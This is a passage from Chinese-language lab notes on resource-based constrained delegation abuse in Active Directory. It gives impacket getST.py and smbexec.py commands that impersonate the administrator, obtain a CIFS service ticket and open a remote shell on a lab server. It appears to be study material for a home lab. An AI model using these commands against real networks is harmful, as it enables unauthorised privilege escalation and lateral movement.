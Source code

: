     > https://www.cnblogs.com/seizer/p/18003119#%E5%88%9B%E5%BB%BA%E6%9C%BA%E5%99%A8%E8%B4%A6%E6%88%B7
    > https://exp10it.io/2023/08/%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE-rbcd-%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#%E5%B8%B8%E8%A7%84%E5%88%A9%E7%94%A8
    > 注意一下 rbcd 中的 -delegate-to 和 -delegate-from。to 代表具有修改委派权限的主机/想要横向的主机，from 指的是机器账号。

4. 使用 impacket 包，获取服务票据（**注意使用 impacket 工具的主机/kali 需要修改 DNS 服务器**）
    ```bash
    # 先记得修改 DNS 服务器，添加 NameServer ip
    sudo vim /etc/resolv.conf
    # python3 ./getST.py -dc-ip 域控的-ip endlessshw2/主机账号\$:密码 -spn cifs/主机名.endlessshw2.com -impersonate administrator
    python3 ./getST.py -dc-ip 192.168.31.4 endlessshw2/hacker\$:hacker -spn cifs/Winserver12.endlessshw2.com -impersonate administrator
    ```

    ![image-20240712183117061](Kerberos/image-20240712183117061.png)

5. 设置环境变量并导入：
    ```bash
    export KRB5CCNAME=administrator@cifs_Winserver12.endlessshw2.com@ENDLESSSHW2.COM.ccache
    python3 smbexec.py -no-pass -k Winserver12.endlessshw2.com
    ```
